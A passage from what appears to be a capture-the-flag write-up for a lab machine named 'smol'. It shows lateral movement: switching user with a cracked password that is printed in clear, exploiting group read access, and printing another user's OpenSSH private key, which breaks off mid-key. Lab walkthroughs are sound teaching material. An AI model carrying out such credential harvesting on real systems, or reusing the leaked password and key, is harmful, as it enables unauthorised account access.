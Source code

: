 We were able to crack just 1 password of user diego, lets use that password to switch to user diego, note that this password will not work with ssh login to user diego.

```bash
www-data@smol:/var/www/wordpress/wp-admin$ su diego
su diego
Password: sandiegocalifornia

diego@smol:/var/www/wordpress/wp-admin$ id
id
uid=1002(diego) gid=1002(diego) groups=1002(diego),1005(internal)
diego@smol:/home/diego$ cat user.txt
45edaec653f......REDACTED
```

---

### Shell as think:

As user diego was in an group called internal, so we now had read permission to read other user’s directory, so let’s see think’s home directory:

```bash
diego@smol:/home$ ls -la /home/think
ls -la /home/think
total 32
drwxr-x--- 5 think internal 4096 Jan 12  2024 .
drwxr-xr-x 6 root  root     4096 Aug 16  2023 ..
lrwxrwxrwx 1 root  root        9 Jun 21  2023 .bash_history -> /dev/null
-rw-r--r-- 1 think think     220 Jun  2  2023 .bash_logout
-rw-r--r-- 1 think think    3771 Jun  2  2023 .bashrc
drwx------ 2 think think    4096 Jan 12  2024 .cache
drwx------ 3 think think    4096 Aug 18  2023 .gnupg
-rw-r--r-- 1 think think     807 Jun  2  2023 .profile
drwxr-xr-x 2 think think    4096 Jun 21  2023 .ssh
lrwxrwxrwx 1 root  root        9 Aug 18  2023 .viminfo -> /dev/null
```

We can read think’s id_rsa from .ssh directory , so let’s read and save that to our kali machine and ssh to user think:

```bash
diego@smol:/home/think/.ssh$ cat id_rsa
cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAxGtoQjY5NUymuD+3b0xzEYIhdBbsnicrrnvkMjOgdbp8xYKrfOgM
ehrkrEXjcqmrFvZzp0hnVnbaCyUV8vDrywsrEivK7d5IDefssH/RqRinOY3FEYE+ekzKoH
+S6+jNEKedMH7DamLsXxsAG5b/Avm+FpWmvN1yS5sTeCeYU0wsHMP+cfM1cYcDkDU6HmiC
A2G4D5+uPluSH13TS12JpFyU3EjHQvV6evERecriHSfV0PxMrrwJEyOwSPYA2c7RlYh+tb
bniQRVAGE0Jato7kqAJOKZIuXHEIKhBnFOIt5J5sp6l/QfXxZYRMBaiuyNttOY1byNwj6/
EEyQe1YM5chhtmJm/RWog8U6DZf8BgB2KoVN7k11VG74+cmFMbGP6xn1mQG6i2u3H6WcY1
LAc0J1bhypGsPPcE06934s9jrKiN9Xk9BG7HCnDhY2A6bC6biE4UqfU3ikNQZMXwCvF8vY
HD4zdOgaUM8Pqi90WCGEcGPtTfW/dPe4+XoqZmcVAAAFiK47j+auO4/mAAAAB3NzaC1yc2
EAAAGBAMRraEI2OTVMprg/t29McxGCIXQW7J4nK6575DIzoHW6fMWCq3zoDHoa5KxF43Kp
qxb2c6dIZ1Z22gslFfLw68sLKxIryu3eSA3n7LB/0akYpzmNxRGBPnpMyqB/kuvozRCnnT
B+w2pi7F8bABuW/wL5vhaVprzdckubE3gnmFNMLBzD/nHzNXGHA5A1Oh5oggNhuA+frj5b
kh9d00tdiaRclNxIx0L1enrxEXnK4h0n1dD8TK68CRMjsEj2ANnO0ZWIfrW254kEVQBhNC
WraO5KgCTimSLlxxCCoQZxTiLeSebKepf0H18WWETAWorsjbbTmNW8jcI+vxBMkHtWDOXI
YbZiZv0VqIPFOg2X/AYAdiqFTe5NdVRu+PnJhTGxj+sZ9ZkBuotrtx+lnGNSwHNCdW4cqR
rDz3BNOvd+LPY6yojfV5PQRuxwpw4WNgOmwum4hOFKn1N4pDUGTF8ArxfL2Bw+M3ToGlDP
D6ovdFghhHBj7U31v3T3uPl6KmZnFQAAAAMBAAEAAAGBAIxuXnQ4YF6DFw/UPkoM1phF+b
UOTs4kI070tQpPbwG8+0gbTJBZN9J1N9kTfrKULAaW3clUMs3W273sHe074tmgeoLbXJME
wW9vygHG4ReM0MKNYcBKL2kxTg3CKEESiMrHi9MITp7ZazX0D/ep1VlDRWzQQg32Jal4jk
rxxC6J32ARoPHHeQZaCWopJAxpm8rfKsHA4MsknSxf4JmZnrcsmiGExzJQX+lWQbBaJZ/C
w1RPjmO/fJ16fqcreyA+hMeAS0Vd6rUqRkZcY/0/aA3zGUgXaaeiKtscjKJqeXZ66/NiYD
6XhW/O3/uBwepTV/ckwzdDYD3v23YuJp1wUOPG/7iTYdQXP1FSHYQMd/C+37gyURlZJqZg
```